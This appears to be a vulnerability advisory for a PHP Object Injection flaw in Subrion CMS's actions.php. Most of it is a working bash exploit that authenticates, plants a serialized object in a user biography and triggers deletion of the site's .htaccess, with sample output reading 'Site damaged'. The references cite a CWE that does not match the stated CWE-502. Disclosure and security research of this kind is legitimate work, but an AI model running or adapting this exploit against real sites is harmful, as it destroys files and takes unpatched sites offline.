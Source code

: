# Actions - PHP Object Injection

This vulnerability was found almost contemporaneously by both me and MS509 Team. As the first public appearance of this issue was made by them on the github page of Subrion, the author of this post is not taking credit for this finding. The aim of this report was to provide a slightly different exploitation method and a public, working exploit.

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS up to v4.2.1. It has been rated as problematic. Affected by this issue is the file `/actions.php`. The manipulation of the of the **biography** value within a user profile leads to a PHP Object Injection vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able inject arbitrary PHP objects within the application context, and use them to achive arbitrary file deletion.

The weakness was originally presented by MS509 on 03/05/2020. A public exploit was released on 02/29/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory (english) is shared for download at github.com. This vulnerability is not handled as a CVE currently. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"
id=1 # ID 1 = Admin
debug=0

# Grep Session Cookie Name
sess_cookie=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*\=\w*")
cookies="Cookie: loader=loaded; $sess_cookie"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil PHP Object within biography"
# Get CSRF Token
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/members/edit/$id/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)

# Generating Payload
payload=$(php serializer.php -c s -t a)

if [ $debug -gt 0 ]; then
    echo $payload
fi

# Add the crafted parameter
res=$(curl -i -s -k -X "POST" -x $proxy -H "Expect:" -H "$cookies" -F "__st=$csrf_token" -F "username=admin" -F "fullname=Administrator" -F "email=admin@subrion.local" -F "email_language=en" -F "save=1" -F "goto=list" --form-string "biography=$payload" "$target/members/edit/1/")

if [[ $(echo $res | grep "HTTP/1.1" | grep "302") == "" ]]; then
    echo "Could not add the evil PHP Object"
    exit 1
fi
echo "[*] Triggering File deletion"
# Get CSRF token
csrf_token=$(curl -ks -H "$cookies" -x $proxy $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Get block ID to trigger
res=$(curl -i -s -k -X "POST" -H "$cookies;  XDEBUG_SESSION=XDEBUG_ECLIPSE;" -x $proxy "$(echo $target | sed 's/panel\///g')/actions.json" -F "__st=$csrf_token" -F "action=edit-picture-title" -F "field=biography" -F "item=member" -F "itemid=$id" -F "path=tmp" )

# Confirming deletion, checking 404 
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/" | head -n 1 | grep -oP "\d{3}")
if [[ "$res" == "404" ]]; then
    echo "[+] Done! Site damaged!"
else
    echo "[-] Error, site patched!"
fi
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./exploit.sh
[*] Logging in
[*] Adding evil PHP Object
[*] Triggering File deletion
[+] Done! Site damaged!
```

When the script finishes, the site should not be reachable anymore, as the .htaccess has been deleted. In case the configuration of the site is more robust, check for the presence of `.htaccess` within Subrion HOME direcotry.

## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
*   [https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)